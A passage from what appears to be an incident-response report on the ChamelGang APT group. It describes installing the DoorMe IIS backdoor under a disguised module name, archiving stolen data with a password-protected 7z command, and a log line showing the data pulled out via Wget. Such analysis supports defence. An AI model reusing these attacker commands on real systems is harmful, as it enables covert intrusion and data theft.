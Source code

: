
After studying the company's network for about two months and gaining control over most of it (including critical servers and hosts in different network segments), attackers installed a malicious module on one of the IIS servers (in this case, the Exchange server), which turned out to be a DoorMe backdoor (see «the Analysis of malware and tools section») and worked in the context of the web server process w3wp.exe. We assume that this was done to reserve the management channel of the compromised infrastructure. This technique was described earlier in the article IIS Raid — Backdooring IIS Using Native Modules and used by the APT group OilRig. In early August 2021, at the Black Hat conference, ESET presented detailed information about the family of malicious IIS modules, which indicates the growing popularity of this technique among attackers.


In attacks, DoorMe was installed using the console command:

    
c:\windows\system32\inetsrv\appcmd.exe install module /name:FastCgiModule_64bit /image:%windir%\System32\inetsrv\iisfcgix64.dll
	    
	

If the command is executed successfully, the module parameters are saved in the configuration file applicationhost.config.
	

Choosing the name FastCgiModule_64bit for the malicious module is also a method to counter forensics. The attackers disguised the new module as an existing legitimate module by adding the x64 bit capacity to the name.  
	
  Figure 7. Configuration file applicationhost.config 

At the same time, the official Microsoft website recommends to exclude some folders on Exchange servers from antivirus scanning for stable server operation. The folder %SystemRoot%\System32\Inetsrv containing IIS server web components, where DoorMe was located, also falls into this category. This folder was excluded from scanning by the antivirus used in the target company.


During the investigation, DoorMe was not detected by antivirus protection tools.

1.4. Data collection and exfiltration

The attackers collected data on the compromised hosts using certain masks:
	
    
7z.exe a -padminadmin -mhe=on -mx9 his.7z hist*
	    
	

After collecting the data, they placed it on web servers on the compromised network for further downloading them using the Wget utility.
	
    
2021-04-01 09:03:34 *.*.*.* GET /aspnet_client/system_web/favicon.rar - 443 - 172.104.109.12 Wget/1.20.3+(linux-gnu) 200
	    
	
CASE #2
2.1 Sequence of events

		During threat intelligence of the ChamelGang group on August 16, 2021, PT ESC experts found fresh traces of server compromise in another company that became a victim of this group. This time, the criminals attacked an organization from the Russian aviation production sector. We notified the affected company on time—four days after the server was compromised—and, in cooperation with its employees, promptly eliminated the threat. In total, the attackers remained in the victim's network for eight days, and two weeks passed from the moment of notification to the completion of the incident response and investigation. According to our data, the APT group did not expect that its backdoors would be detected so quickly, so it did not have time to develop the attack further.
	